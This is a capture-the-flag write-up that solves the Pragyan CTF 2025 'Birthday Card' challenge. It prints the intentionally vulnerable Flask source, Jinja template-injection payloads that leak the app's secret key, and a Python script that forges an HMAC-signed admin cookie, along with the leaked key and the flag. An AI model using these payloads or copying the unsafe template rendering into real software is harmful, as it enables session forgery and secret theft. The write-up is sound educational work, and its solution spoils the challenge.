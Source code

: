 ```yaml
---
title: Birthday Card
date: 2025-02-11 01:29:12 +0800
categories: [Hacking, CTF]
tags: [web, ssti]     # TAG names should always be lowercase
description: Using SSTI to solve Pragyan CTF 2025 "Birthday Card" challenge
---
```


## Introduction

My knowledge about SSTI is little to none, so even though this was an easy challenge I still learned a lot! Kudos to the Pragyan Team for organizing the event.

## First glance

When I went to the target site, `https://birthday.ctf.prgy.in/`, I saw this:

![firstglance](https://github.com/user-attachments/assets/acf0cb40-4c45-4eb8-a82d-82f26f7b0638){: width="400" height="300" }


My first thought is that the problem might be a sanitization issue since the only thing I can do is enter text to generate a card. Thankfully the challenge comes with the source `appy.py`

## App.py

<details markdown="1" id="appjs">
<summary>App.py</summary>

```python

from flask import Flask, request, jsonify, abort, render_template_string, session, redirect
import builtins as _b
import sys
import os


app = Flask(__name__)
app.secret_key = os.getenv("APP_SECRET_KEY", "default_app_secret")
env = app.jinja_env


KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")


class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
        


@app.route("/", methods=["GET", "POST"])
def personalized_card():
    if request.method == "GET":
        return """
        <link rel="stylesheet" href="static/style.css">
        <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,600&display=swap" rel="stylesheet">
        <div class="container">
            <div class="card-generator">
                <h1>Personalized Card Generator</h1>
                <form action="/" method="POST">
                    <label for="sender">Sender's Name:</label>
                    <input type="text" id="sender" name="sender" placeholder="Your name" required maxlength="50">
                    <label for="recipient">Recipient's Name:</label>
                    <input type="text" id="recipient" name="recipient" placeholder="Recipient's name" required maxlength="50">
                    <label for="message">Message:</label>
                    <input type="text" id="message" name="message" placeholder="Your message" required maxlength="50">
                    <label for="message_final">Final Message:</label>
                    <input type="text" id="message_final" name="message_final" placeholder="Final words" required maxlength="50">
                    <button type="submit">Generate Card</button>
                </form>
            </div>
        </div>
        """

    elif request.method == "POST":
        try:
            recipient = request.form.get("recipient", "")
            sender = request.form.get("sender", "")
            message = request.form.get("message", "")
            final_message = request.form.get("message_final", "")
            if validator.security1(recipient, sender, message, final_message) and validator.security2(recipient, sender, message, final_message):
                template = f"""
                    <link rel="stylesheet" href="static/style.css">
                    <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,600&display=swap" rel="stylesheet">
                    <div class="container">
                        <div class="card-preview">
                            <h1>Your Personalized Card</h1>
                            <div class="card">
                                <h2>From: {sender}</h2>
                                <h2>To: {recipient}</h2>
                                <p>{message}</p>
                                <h1>{final_message}</h1>
                            </div>
                            <a class="new-card-link" href="/">Create Another Card</a>
                        </div>
                    </div>
                """
            else :
                template="either the recipient or sender or message input is more than 50 letters"

            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)

        except Exception as e:
            return f"""
            <link rel="stylesheet" href="static/style.css">
            <div>
                <h1>Error: {str(e)}</h1>
                <br>
                <p>Please try again. <a href="/">Back to Card Generator</a></p>
            </div>
            """, 400
        



@app.route("/debug/test", methods=["POST"])
def test_debug():
    user = session.get("user")
    host = request.headers.get("Host", "")
    if host != "localhost:3030":
        return "Access restricted to localhost:3030, this endpoint is only development purposes", 403
    if not user:
        return "You must be logged in to test debugging.", 403
    try:
        raise ValueError(f"Debugging error: SECRET_KEY={KEY}")
    except Exception as e:
        return "Debugging error occurred.", 500



@app.route("/admin/report")
def admin_report():
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")
    try:
        token, signature = auth_cookie.rsplit(".", 1)
        from app.sign import initFn
        signer = initFn(KEY)
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        if valid_signature != signature:
            abort(403, f"Invalid token.")

        if token == "admin":
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")

@app.after_request
def clear_imports(response):
    if 'app.sign' in sys.modules:
        del sys.modules['app.sign']
    if 'app.sign' in globals():
        del globals()['app.sign']
    return response
```
</details>

### Used of Jinja
I quickly glanced through the code and saw `Jinja` 

```python
            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)
```

This immediately made me think of Server-side Template Injection (SSTI), so I quickly returned to the target site and tested `{{ '{{' }} 7*7 }}` and indeed SSTI, is possible



![49](https://github.com/user-attachments/assets/2ce9c844-3e72-4827-a1ef-26ccee03c650){: width="600" height="300" }


### Sanitization

```python
class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
```

This ensures that the input doesn't contain the string `validator` or `os`, and that it has a maximum length of 50 characters.

To solve this challenge, we don't need to bypass these checks, but they are needed in the harder version of the challenge(Deathday Card). 

For that I highly recommend reading this: [Nullbrunk Write-up for the Deathday Card Challenge](https://nullbrunk.github.io/posts/pragyan-deathdaycard/).

Going back to the challenge...


### /admin/report endpoint

```python
@app.route("/admin/report")
def admin_report():

    # Checks if the `Cookie` header contains a cookie-name called `session`
    # If not it returns a 403
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")



    try:
        # This means that the cookie-value would look like --> token.signature
        token, signature = auth_cookie.rsplit(".", 1)

        # This indicates that there is a file called sign.py
        from app.sign import initFn

        # KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")
        signer = initFn(KEY)

        #Creating a valid signature
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        # Checks if the signature from the cookie-value is not the same as the created valid_signature
        # If False then it continues but if True then it returns a 403
        if valid_signature != signature:
            abort(403, f"Invalid token.")

        
        # If the first part of the cookie-value is equal to "admin" then it gives us the flag.
        # If not then it returns a 403
        if token == "admin": # We now know that the token is "admin"
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")
```

***Please read the comments for my explanation of what the code is doing***

With this, to get the flag we just need to generate a valid session:

* `Token` = `"admin"`
* `Key` = `unknown`
* `Algorithm` used to generate a valid signature = `unknown`

Since we have an SSTI it was pretty easy to leak the value of `KEY`

By using this payload: `{{ '{{' }}config.items()}}` I was able to leak it :P

![leakedSecretKey](https://github.com/user-attachments/assets/cdae04ed-b59b-4bda-8761-6be842682241){: width="600" height="300" }

So we now have this:

* `Token` = `"admin"`
* `Key` = `"dsbfeif3uwf6bes878hgi"`
* `Algorithm` used to generate a valid signature = `unknown`


For the last part I actually just guessed it xD I figured I'd try to use HMAC-SHA-256 since it's a common choice to generate a signature.

## gen.py

With all of that, I created this script.

```python
import hmac
import hashlib

# Secret key
KEY = b"dsbfeif3uwf6bes878hgi"

# Token
token = "admin"

signature = hmac.new(KEY, token.encode(), hashlib.sha256).hexdigest()
auth_cookie = f"{token}.{signature}"

print(auth_cookie)
```

Running `gen.py` returns -> `admin.dc92ab47061ce7a0922596817589737de0b8dde08e7fbe6c7772ad5f87ea9f0b`

## Flag

To check if that is a valid `cookie-value`, I used it and made a request to `/admin/report` and...


![flag](https://github.com/user-attachments/assets/9d34926c-ae75-4659-8da5-9e30f86fca80)

Finally, we got the `Flag: p_ctf{S3rVer_STI_G0es_hArd}`


That's all for this write-up! Thanks for reading, and have a nice day :D

-***Datsuraku147***